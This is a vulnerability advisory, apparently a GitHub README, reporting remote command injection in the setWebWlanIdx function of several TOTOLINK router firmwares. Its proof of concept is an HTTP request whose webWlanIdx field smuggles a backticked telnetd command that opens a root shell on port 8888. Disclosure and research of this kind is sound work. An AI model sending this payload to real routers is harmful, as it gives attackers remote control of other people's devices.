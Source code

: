 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A830R、3100R、A950RG、A800R、A3000RU、A810R

Version:A830R_Firmware(V5.9c.4729_B20191112)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html)

A3100R_Firmware(V4.1.2cu.5050_B20200504)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html)

A950RG_Firmware(V4.1.2cu.5161_B20200903)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html)

A800R_Firmware(V4.1.2cu.5137_B20200730)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

A3000RU_Firmware(V5.9c.5185_B20201128)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html)

A810R_Firmware)(V4.1.2cu.5182_B20201026)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `wireless.so` binary:

In `setWebWlanIdx` function,`webWlanIdx` is directly passed by the attacker, so we can control the `webWlanIdx` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 

> Complete vulnerability verification on A830R product



## PoC

We set `webWlanIdx` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 80
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/top.asp?timestamp=1645506134
Cookie: SESSION_ID=2:1645506134:2

{"topicurl":"setting/setWebWlanIdx","webWlanIdx":"`telnetd -l /bin/sh -p 8888`"}
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## Result
Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

